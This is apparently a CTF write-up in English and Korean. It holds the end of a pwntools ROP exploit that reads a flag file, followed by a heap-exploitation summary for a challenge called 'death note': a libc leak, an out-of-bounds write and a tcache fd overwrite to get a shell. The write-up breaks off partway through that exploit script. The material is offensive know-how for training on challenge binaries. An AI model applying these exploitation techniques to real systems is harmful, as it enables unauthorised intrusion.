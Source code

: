 ```python

print hex(stack)
print hex(pie_base)
print hex(libc_base)

p.sendafter(': ', str(malloc_hook))
p.sendafter(': ', p64(gets))

p.sendafter('t\n', '1')
p.sendafter(': ', str(stack - 0x138))

payload = ''
payload += p64(pie_base + csu_init(e))
payload += chain(stack-0x70, 0xffffffffffffffff - 99, stack-0x58, 0, pie_base + csu_call(e))
payload += chain(stack-0x68, 5, stack-0x50, 0x30, pie_base + csu_call(e))
payload += chain(stack-0x60, 1, stack-0x50, 0x30, pie_base + csu_call(e))
payload += p64(openat)
payload += p64(read)
payload += p64(write)
payload += '/home/ctf/flag.txt\x00'
p.sendline(payload)

p.interactive()
```

---



# death note (896pts, 18solves)

## Summary

1. Free the heap 8 times and libc leak
2. Using oob, Trigger the heap overflow
3. overwrite fd and get shell



0x80이상의 크기로 힙을 여러개 할당하고 8번 free 시키면 마지막에 free한 힙은 티케시가 아닌 언솔빈으로 들어간다. 이때 힙을 한 번 할당하면 이 위치에 힙이 할당되며 libc leak이 가능하게 된다.



그리고 Select 메뉴에 oob가 존재하는데 이를 이용하면 tcache entry 구조체에 있는 주소에 매우 큰 값을 입력 할 수 있다. 결과적으로 heap overflow가 발생하며 fd 값을 덮음으로써 원하는 주소에 힙을 할당받을 수 있게 된다.

```python
from pwn import *

#p = process("./death_note")
p = remote("bin.q21.ctfsecurinets.com", 1337)
e = ELF("./death_note")
libc = e.libc

def Malloc(size):
    p.sendafter('it\n', '1')
    p.sendafter(':', str(size))

def Edit(idx, name):
    p.sendafter('it\n', '2')
    p.sendafter(':', str(idx))
    p.sendafter(':', str(name))

def Free(idx):
    p.sendafter('it\n', '3')
```